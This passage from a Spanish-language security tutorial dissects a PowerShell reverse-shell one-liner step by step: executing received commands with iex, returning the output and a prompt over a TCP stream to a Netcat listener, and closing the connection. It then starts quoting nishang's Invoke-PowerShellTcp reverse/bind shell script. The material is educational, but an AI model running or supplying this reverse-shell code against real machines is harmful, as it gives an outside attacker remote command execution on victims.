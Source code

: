 ```r
$sendback = (iex $data 2>&1 | Out-String ); 
```

Establece/evalúa la variable `$sendback` igual a (`=`) el cmdlet Invoke-Expression (`iex`) contra la variable `$data`, luego redirige el error estándar (`2>`) y la salida estándar (`1`) a través de un pipe (`|`) al cmdlet `Out-String` que convierte los objetos de entrada en cadenas de texto. Debido a que se usa Invoke-Expression, todo lo almacenado en $data se ejecutará en la computadora local. El punto y coma (`;`) asegura que los comandos y el código se ejecuten secuencialmente.

### Show Working Directory

```r
$sendback2 = $sendback + 'PS ' + (pwd).path + '> '; 
```

Establece/evalúa la variable `$sendback2` igual a (`=`) la variable `$sendback` más (`+`) la cadena PS (`'PS'`) más (`+`) la ruta al directorio de trabajo (`(pwd).path`) más (`+`) la cadena `'> '`. Esto resultará en que el prompt de la shell sea PS C:\workingdirectoryofmachine >. El punto y coma (`;`) asegura que los comandos y el código se ejecuten secuencialmente. Recuerda que el operador + en programación combina cadenas cuando no se utilizan valores numér

icos, con la excepción de ciertos lenguajes como C y C++ donde se necesitaría una función.

### Sets Sendbyte

```r
$sendbyte=  ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
```

Establece/evalúa la variable `$sendbyte` igual a (`=`) el byte stream codificado en ASCII que usará un cliente TCP para iniciar una sesión de PowerShell con un listener de Netcat ejecutándose en la caja de ataque.

### Terminate TCP Connection

```r
$client.Close()"
```

Este es el método [TcpClient.Close](https://docs.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient.close?view=net-5.0) que se usará cuando la conexión se termine.

La línea de comando que acabamos de examinar juntos también puede ejecutarse en forma de un script de PowerShell (`.ps1`). Podemos ver un ejemplo de esto viendo el código fuente a continuación. Este código fuente es parte del proyecto [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1):


```r
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 
.DESCRIPTION
This script is able to connect to a standard Netcat listening on a port when using the -Reverse switch. 
Also, a standard Netcat can connect to this script Bind to a specific port.
The script is derived from Powerfun written by Ben Turner & Dave Hardy
.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.
.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
```